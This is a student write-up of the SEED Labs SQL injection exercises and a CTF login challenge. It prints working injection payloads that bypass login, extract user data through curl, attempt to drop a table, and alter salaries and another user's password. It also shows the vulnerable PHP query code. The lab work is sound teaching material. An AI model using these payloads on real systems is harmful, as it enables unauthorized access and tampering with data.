







# Trabalho realizado na Semana #8 - SQL Injection Attack

For this week we where proposed to do tasks presented on this link: https://seedsecuritylabs.org/Labs_20.04/Web/Web_SQL_Injection/

## Task 1 - Get Familiar with SQL Statements

The task was to select the data of the user "Alice". As SQL is already well known, we easily arrive at the correct command to complete the task:

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

This is how we obtained all of Alice’s personal data:



## Task 2 - SQL Injection Attack on SELECT Statement

### Task 2.1 - SQL Injection Attack from webpage

We access the website "www.seed-server.com" provided by the Docker container and also the file `unsafe_home.php`. Then we could see that the query used is fragile because the server creates the command dynamically with unsanitized strings from the user input:


As the password field is encrypted, it is advantageous to usurp the search operation using only the username field.<br>
By using the "`admin' #`" input, we guarantee privileged access, as all keyword checking becomes irrelevant once it is commented out. Thus, the code executed on the server side became the following:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name='admin' # and Password=’$hashed_pwd’
```

As expected, we were able to log in with the administrator account and thus obtain all the data relating to the rest of the application's users:



### Task 2.2 - SQL Injection Attack from command line

This time we carry out the attack through a GET request. An example of a request to this server in a command line would be:

```bash
curl "www.seed-server.com/unsafe_home.php?username=USER&Password=PASS"
```

With the same input from the previous section, this time encrypted using the conventions (%27 = ' and %23 = #), we obtained the following malicious command:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

With this, we obtained the HTML code of the entire page that contained users' personal data



### Task 2.3 - Append a new SQL statement

We can add new SQL commands using ";". To do this, we modified our initial malicious input so that it had a side-effect on the server. For example, delete the credentials table:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```

However, the operation was not executed due to a database error:



## Task 3 - SQL Injection Attack on UPDATE Statement

### Task 3.1 - Modify your own salary

After logging in with a system account (for example username = Alice, password = 11), we had access to a page to edit personal data. This is managed from the available file `unsafe_edit_backend.php`, which contains a query also dynamically formed with unsanitized strings from user input. <br>
Our attack consists of using the "phone number" field. Using the same technique as in previous topics, we obtained the following code that can manipulate the user's salary:

```sql
933667378',Salary='9999999
```

Note that the single quote (') before the salary value is important to complete the last statement before WHERE. In the end, the server executed the following code:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378',Salary='9999999' WHERE ID=$id;
```

As expected, the salary variable was also changed to the chosen value:



### Task 3.2 - Modify other people’ salary

To change the value of another user's salary, we use a technique similar to the previous one. However, we created a different WHERE clause and commented out the one that was in the system so as not to interfere with the search:

```sql
933667378',Salary='1' WHERE Name='Boby'#
```

With this input, the server executed the following code:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378',Salary='1' WHERE Name='Boby'# WHERE ID=$id;
```

Here we can see the value of Boby's salary after the attack:




### Task 3.3 - Modify other people’ password

To change another user's password, we use a technique similar to the previous one. This time the value to be modified was previously encrypted with SHA1 encryption. For example, for the new password `aliceeboss`, the hash is `82acd69fd30df22ef58659d6e483ae39fa56324d`.


```sql
912345678', password='82acd69fd30df22ef58659d6e483ae39fa56324d' WHERE name='Boby'#
```

With this input, the server executed the following code:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378', password='82acd69fd30df22ef58659d6e483ae39fa56324d' WHERE name='Boby'# WHERE ID=$id;
```

With the new password changed, we were able to log into Boby's account:




# CTF - Control The Flag

When entering the website we are presented with a login page. To unlock the vault we need to provide an valid username and password combination.
The goal for this CTF is to log in as valid user. To achieve that, we can use SQL Injection, since the user inputs are not verified, nor used as parameters for the query.

This is the SQL query executed:
```php
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

The input used is: `' or 1=1;#`
This input is always true and comments the part where the password is verified.


This is the SQL query that is actually executed:
```php
$query = "SELECT username FROM user WHERE username = '"' or 1=1;#"' AND password = '".$password."'";
```
We can successfully login and obtain the flag.

